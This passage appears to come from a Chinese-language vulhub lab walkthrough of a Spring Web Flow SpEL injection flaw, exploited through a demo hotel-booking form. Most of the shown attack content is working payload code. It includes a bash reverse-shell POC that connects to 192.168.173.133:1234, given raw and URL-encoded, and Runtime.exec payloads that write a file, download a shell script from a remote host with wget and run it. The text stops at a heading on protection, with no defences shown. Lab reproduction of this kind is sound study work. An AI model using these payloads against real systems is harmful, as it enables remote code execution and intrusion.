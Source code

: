 
![](https://gitee.com/fuli009/images/raw/master/public/20210903083041.png)image-20210829204104888

点击预订按钮”Book Hotel"，填写相关信息后点击“ Process”(从这一步，其实WebFlow就正式开始了)︰

![](https://gitee.com/fuli009/images/raw/master/public/20210903083042.png)image-20210829204232794

随便输入一些内容后，我们点击Proceed然后会跳转到Confirm页面（Credit Card为16位）：

![](https://gitee.com/fuli009/images/raw/master/public/20210903083043.png)

点击confirm时进行抓包

![](https://gitee.com/fuli009/images/raw/master/public/20210903083044.png)image-20210829204401161![](https://gitee.com/fuli009/images/raw/master/public/20210903083045.png)image-20210829204731522

反弹shell的poc：

    
    
    原POC:  
    &_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/192.168.173.133/1234 0>&1")).start()=vulhub  
      
    URL编码后  
    &_(new java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.173.133/1234 0>%261")).start()=vulhub  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210903083046.png)image-20210829210014751

exp扩展

> 1、向里面写入文件
>  
>  
>     &_T(java.lang.Runtime).getRuntime().exec("touch /tmp/zcc")  
>     >
>
>
> ![](https://gitee.com/fuli009/images/raw/master/public/20210903083047.png)image-20210829211034218![](https://gitee.com/fuli009/images/raw/master/public/20210903083048.png)image-20210829211128104

> 2、使用wget下载远程bash脚本
>  
>  
>     &_T(java.lang.Runtime).getRuntime().exec("/usr/bin/wget -qO /tmp/shell
> http://x.x.x.x:xxxx/shell")  
>     >

> 3、执行上一步下载的脚本
>  
>  
>     &_T(java.lang.Runtime).getRuntime().exec("/bin/bash /tmp/shell")  
>     >

#### 安全防护
